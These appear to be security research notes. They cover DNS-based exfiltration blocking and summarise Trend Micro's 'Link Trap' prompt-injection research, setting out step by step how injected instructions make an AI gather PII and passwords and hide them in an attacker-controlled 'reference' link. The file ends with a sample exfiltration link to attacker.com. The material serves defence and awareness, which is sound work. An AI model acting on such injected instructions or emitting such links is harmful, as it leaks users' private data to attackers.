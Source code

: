 
### 7. DNS Monitoring & Firewall

**Pi-hole (DNS Sinkhole):**
- Blocks DNS queries to known malicious domains
- Can be configured with custom blocklists for data exfiltration domains
- Logs all DNS queries for anomaly detection

**Cisco Umbrella:**
- Cloud-based DNS security
- Blocks DNS exfiltration attempts
- ML-based detection of suspicious DNS patterns (long subdomains with encoded data)

---

## Trend Micro Link Trap Research (December 2024)

**Publication:** "Link Trap: GenAI Prompt Injection Attack"
**Author:** Jay Liao (Trend Micro)
**Date:** December 17, 2024
**Included In:** Trend Micro State of AI Security Report 1H 2025

### Key Findings

**Attack Definition:**
- Adversaries trick GenAI models into sending users responses with malicious URLs
- URLs disguised as harmless reference links (e.g., "[1]", "See documentation")
- Clicking URL covertly sends user data to attacker server
- Works even if AI has NO external connectivity or elevated permissions

**How It Works:**
1. **Malicious Prompt Injection:** Hidden instructions embedded in user query or document
2. **Data Collection:** AI instructed to collect PII, chat history, passwords, internal documents
3. **URL Generation:** AI appends collected data to attacker-controlled URL
4. **Deceptive Response:** AI returns normal-looking answer with hidden hyperlink
5. **User Interaction:** User clicks "reference" link, browser sends data to attacker

**Key Insight:**
> "This attack cleverly leverages the user's capabilities, delegating the final step of data upload to the user, who inherently has higher permissions."

**Recognition:**
- Prompt injection noted in MITRE ATLAS Matrix
- Listed in OWASP Top 10 for LLM Applications 2025 (#1 risk)

**Defense Recommendations:**
- Inspect prompts for malicious injection content before submission
- Verify URLs before clicking in AI responses
- Implement Trend Vision One Zero Trust Secure Access with prompt injection detection
- Monitor AI-generated hyperlinks for suspicious patterns

**Source:** https://www.trendmicro.com/en_us/research/24/l/genai-prompt-injection-attack-threat.html

---


[ref]: https://attacker.com/exfil?data=secrets